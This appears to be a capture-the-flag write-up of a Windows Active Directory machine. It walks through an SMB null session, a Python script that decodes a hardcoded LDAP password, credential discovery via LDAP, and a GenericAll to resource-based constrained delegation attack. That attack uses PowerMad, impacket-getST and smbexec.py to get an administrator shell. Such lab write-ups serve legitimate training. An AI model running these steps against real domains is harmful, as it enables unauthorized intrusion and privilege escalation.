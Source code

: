 # Support

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Null Session

I found that SMB accepts null credentials for this machine:

<figure><img src="../../../.gitbook/assets/image (32) (2) (1).png" alt=""><figcaption></figcaption></figure>

Viewing the support-tools share, we find that it contains multiple binaries.

<figure><img src="../../../.gitbook/assets/image (22) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

There's only one that was interesting, and it was the `UserInfo.exe` file. I took it back to my Windows VM and used dnSpy to open it.

### dnSpy

When decompiled, it seems that the binary was sending LDAP queries:

<figure><img src="../../../.gitbook/assets/image (26) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

Looking around, I also found this `password` function.

<figure><img src="../../../.gitbook/assets/image (18) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

We can decode this easily using some Python and following their logic.

```python
import base64
enc_pass="0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key=b"armando"

array = base64.b64decode (enc_pass)
array1 = []

for i in range(len(array)):
        array1.append(chr(array[i] ^ key[i % len(key)] ^ 0xDF))

array1 = ''.join(array1)
print (array1)
```

This would output the password.

<figure><img src="../../../.gitbook/assets/image (33) (3).png" alt=""><figcaption></figcaption></figure>

### LDAPSearch

Then, since the binary does LDAP queries, I wanted to use the username and password given by the binary to query LDAP.

<figure><img src="../../../.gitbook/assets/image (25) (3) (1).png" alt=""><figcaption></figcaption></figure>

On analysing the output, I found a hidden password for the `support` user.

<figure><img src="../../../.gitbook/assets/image (6) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

We can then `evil-winrm` in as this `support` user.

<figure><img src="../../../.gitbook/assets/image (13) (4) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Once in, I started Bloodhound to enumerate for me. Upon reviewing the contents, I saw this interesting set of permissions over the DC.

<figure><img src="../../../.gitbook/assets/image (9) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

We can use PowerMad and PowerView to abuse the `GenericAll` privileges.

### GenericAll Abuse

We can use this set of commands to create a new user:

{% code overflow="wrap" %}
```powershell
New-MachineAccount -MachineAccount (Get-Variable -Name "FAKE01").Value -Password $(ConvertTo-SecureString 'password@123' -AsPlainText -Force) -Verbose
Set-ADComputer (Get-Variable -Name "DC").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FAKE01").Value + '$')
Get-ADComputer (Get-Variable -Name "DC").Value -Properties PrincipalsAllowedToDelegateToAccount
# on Linux from here 
impacket-getST support.htb/fake01 -dc-ip <IP> -impersonate administrator -spn www/dc.support.htb
export KRB5CCNAME=administrator.ccache
smbexec.py support/Administrator@support.htb -no-pass -k
```
{% endcode %}

This would spawn in a shell for us.

How it works is that we first create a new user that has the Constrained Delegation privilege. Then, we are able to impersonate the administrator and request a ticket that we can use to gain a shell with `smbexec.py`.

<figure><img src="../../../.gitbook/assets/image (24) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>
